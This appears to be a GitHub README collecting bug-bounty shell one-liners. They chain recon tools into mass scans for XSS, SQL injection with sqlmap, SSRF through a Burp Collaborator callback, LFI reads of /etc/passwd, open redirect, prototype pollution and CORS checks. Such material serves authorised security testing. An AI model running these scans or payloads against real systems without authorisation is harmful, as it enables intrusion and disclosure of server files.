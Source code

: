 # Bug Bounty One-Liners I found on LinkedIn 
## I am not the owner of this 
## credits to the original owner



### 𝐗𝐒𝐒 ⪼

cat targets.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
cat targets.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"


### 𝐒𝐐𝐋𝐢 ⪼

httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'


### 𝐒𝐒𝐑𝐅 ⪼

findomain -t http://target.com -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace 𝘩𝘵𝘵𝘱://𝘠𝘖𝘜𝘙.𝘣𝘶𝘳𝘱𝘤𝘰𝘭𝘭𝘢𝘣𝘰𝘳𝘢𝘵𝘰𝘳.𝘯𝘦𝘵


### 𝐋𝐅𝐈 ⪼

gau http://vuln.target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'


### 𝐎𝐏𝐄𝐍 𝐑𝐄𝐃𝐈𝐑𝐄𝐂𝐓 ⪼

gau http://vuln.target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'


### 𝐏𝐑𝐎𝐓𝐎𝐓𝐘𝐏𝐄 𝐏𝐎𝐋𝐋𝐔𝐓𝐈𝐎𝐍 ⪼

subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"


 ### 𝐂𝐎𝐑𝐒 ⪼

gau http://vuln.target.com | while read url;do target=$(curl -s -I -H "Origin: https://evvil.com" -X GET $url) | if grep 'https://evvil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done


 ### 𝐄𝐱𝐭𝐫𝐚𝐜𝐭 .𝐣𝐬 ⪼

echo http://target.com | haktrails subdomains | httpx -silent | getJS --complete | tojson | anew JS1
assetfinder http://vuln.target.com | waybackurls | grep -E "\.json(?:onp?)?$" | anew


 ### 𝐄𝐱𝐭𝐫𝐚𝐜𝐭 𝐔𝐑𝐋𝐬 𝐟𝐫𝐨𝐦 𝐜𝐨𝐦𝐦𝐞𝐧𝐭 ⪼

cat targets.txt | html-tool comments | grep -oE '\b(https?|http)://[-A-Za-z0-9+&@#/%?=~_|!:,.;]*[-A-Za-z0-9+&@#/%=~_|]'


### 𝐃𝐮𝐦𝐩 𝐈𝐧-𝐬𝐜𝐨𝐩𝐞 𝐀𝐬𝐬𝐞𝐭𝐬 𝐟𝐫𝐨𝐦 𝐇𝐚𝐜𝐤𝐞𝐫𝐎𝐧𝐞 ⪼

curl -sL 𝘩𝘵𝘵𝘱𝘴://𝘨𝘪𝘵𝘩𝘶𝘣.𝘤𝘰𝘮/𝘢𝘳𝘬𝘢𝘥𝘪𝘺𝘵/𝘣𝘰𝘶𝘯𝘵𝘺-𝘵𝘢𝘳𝘨𝘦𝘵𝘴-𝘥𝘢𝘵𝘢/𝘣𝘭𝘰𝘣/𝘮𝘢𝘴𝘵𝘦𝘳/𝘥𝘢𝘵𝘢/𝘩𝘢𝘤𝘬𝘦𝘳𝘰𝘯𝘦_𝘥𝘢𝘵𝘢.𝘫𝘴𝘰𝘯?𝘳𝘢𝘸=𝘵𝘳𝘶𝘦 | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type]


### 𝐅𝐢𝐧𝐝 𝐥𝐢𝐯𝐞 𝐡𝐨𝐬𝐭/𝐝𝐨𝐦𝐚𝐢𝐧/𝐚𝐬𝐬𝐞𝐭𝐬 ⪼

subfinder -d http://vuln.target.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u


### 𝐒𝐜𝐫𝐞𝐞𝐧𝐬𝐡𝐨𝐭 ⪼

assetfinder -subs-only http://target.com | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @'

###
